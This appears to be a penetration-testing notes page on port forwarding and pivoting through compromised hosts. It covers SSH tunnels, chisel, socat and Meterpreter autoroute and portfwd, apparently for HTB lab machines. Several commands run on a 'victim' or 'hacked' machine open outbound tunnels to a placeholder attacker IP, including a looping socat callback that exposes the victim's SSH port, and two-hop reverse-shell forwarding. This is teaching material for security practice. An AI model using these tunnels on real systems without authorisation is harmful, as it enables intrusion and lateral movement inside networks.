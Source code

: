 ```yaml
---
description: Port Forwarding and Pivoting
---
```


# Port Forwarding

## SSH

### Locally

Example: we want to connect to the port 1025 on the remote machine "delivery" on our port 1337.

```
ssh -L 1337:localhost:1025 maildeliverer@delivery
```

Example: we want to access the port 1025 on the remote machine "pivotable" through the machine "delivery" on our machine on port 1337.&#x20;

```
ssh -L 1337:pivotable:1025 maildeliverer@delivery
```

### Remotely

Example: SSH to my kali, opens up port 1025 on the victim's localhost, to be accessible at port 1337 on kali.

```
ssh -R 1337:localhost:1025 kali@mykali
```

### Dynamically

This creates a SOCKS proxy that allows you to reach IP addresses that are in the same network as a box you can SSH to.&#x20;

Run the following commands on the box you want to proxy through:

```
# in an ssh session:
~C
-D 1080
```

Then, on your machine, make sure `/etc/proxychains.conf` has:

```
socks5 127.0.0.1 1080
```

Then you can use the `proxychains` command in front of your other commands to proxy through the machine. For example, this command curls the IP address 192.168.122.4 through the proxied machine:

```
proxychains curl 192.168.122.4
```

To use that with burp, go to "User Options", select "use socks proxy", and configure it to go through localhost on port 1080.

### Two Hops

This section explains how to forward a reverse shell gained in a second hacked box through a first hacked box to kali.

Run the following commands on the first hacked machine:

```
# in an ssh session:
~C

# first part is for the hacked machine
# second part is for kali
-R 127.0.0.1:9001:127.0.0.1:9001 
```

**Question:** Why can't we just specify the private IP address in the above command instead of 127.0.0.1? In that case, we wouldn't have to redirect with socat later on.

You can confirm whether it worked by running:

```
netstat -alnp | grep 9001
```

This will send everything from the hacked machine's localhost:9001 to kali:9001. However, **it will not send anything from the hacked machine's private IP address** to kali.&#x20;

You can use socat to redirect traffic from the second hacked machine's private IP address to its localhost, so that the traffic could be forwarded to kali.&#x20;

In this example, the first hacked box's IP address is 192.168.122.1:

```
socat TCP-LISTEN:9001,bind=192.168.122.1,fork,reuseaddr TCP:localhost:9001 &
```

After you have set that up, you can run a reverse shell on the second hacked machine and have it connect to port 9001 on the first hacked machine. That connection will be forwarded to port 9001 on your kali. **Don't forget to run a listener on port 9001** in kali to catch the connection.

## Chisel

This will allow you to access port 4505 on the target's localhost from port 4505 on your own machine.

```
# Run on kali
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse

# Run on target machine
./chisel_1.7.6_linux_amd64 client YOUR_IP_ADDRESS:12312 R:4505:127.0.0.1:4505
```

## Socat

### Same Machine Redirection

You can use socat for redirecting a port to another port on the same machine.

For example, this command redirects port 9001 on the IP address 192.168.122.1 to localhost:9001 **on that same machine**:

```
socat TCP-LISTEN:9001,bind=192.168.122.1,fork,reuseaddr TCP:localhost:9001 &
```

### **Access Remote Port Through Local Port**

{% embed url="https://book.hacktricks.xyz/tunneling-and-port-forwarding#remote-port-2-port" %}

**Warning**: For some strange reason, when I used this to forward a web port, then I was able to do curl requests to this, but not gobuster or wfuzz.

```
# On attacker's machine
# Redirect port 2222 to port 443 in localhost
sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr

# On victim machine
# Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22
while true; do socat TCP4:ATTACKER_IP_ADDRESS_HERE:443 TCP4:127.0.0.1:22 ; done 
```

After following the above example, your port 2222 will be forwarded to a victim's port 22. So you can SSH to the victim like this:

```
ssh localhost -p 2222
```

## Meterpreter Autorouting

{% embed url="https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html" %}
Autoroute documentation
{% endembed %}

Use autoroute to automatically route traffic to a specific host

Set up a socks proxy

```
use auxiliary/server/socks_proxy
run
```

Then set up proxychains by editing `/etc/proxychains.conf`. Add the socks5 proxy line under  `[ProxyList]`(if there is already a ProxyList, add the line under the existing ProxyList):

```
[ProxyList]
socks5 127.0.0.1 1080
```

In metasploit, set up autorouting

```
use multi/manage/autoroute
set cmd autoadd
set session SESSION_NUMBER_HERE # Has to be meterpreter I think
set subnet NETWORK_IP_ADDRESS_HERE
set netmask NETMASK_HERE
run
```

After that is done, you can run metasploit tools against the selected host. For example, `scanner/portscan/tcp` (the socks proxy part wasn't actually needed for this).

&#x20;But you want to reach the host using non-metasploit tools, too. To run nmap and other tools against hosts in the chosen subnet, use proxychains. For example, let's say you chose the subnet 172.17.0.0, and you want to scan the host at 172.17.0.1:

```
proxychains -q nmap -A -v 172.17.0.1
```

**Warning: I didn't actually get the proxychains part to work on the OpenSource HTB machine, unfortunately.**

## Meterpreter Port Forwarding

Portfwd is a command you can use for port forwarding on meterpreter

{% embed url="https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html#portfwd" %}
Portfwd section of metasploit docs
{% endembed %}

From meterpreter shell:

```
portfwd add -l 3000 -p 3000 -r 172.0.0.1
```

* `-l`: local port to listen on
* `-p`: remote port to connect to
* `-r`: remote IP address to connect to

## Pivoting Cheat Sheet

In-depth guide on different scenarios (ssh, reverse, tunnelling, etc):

[https://artkond.com/2017/03/23/pivoting-guide/](https://artkond.com/2017/03/23/pivoting-guide/)\
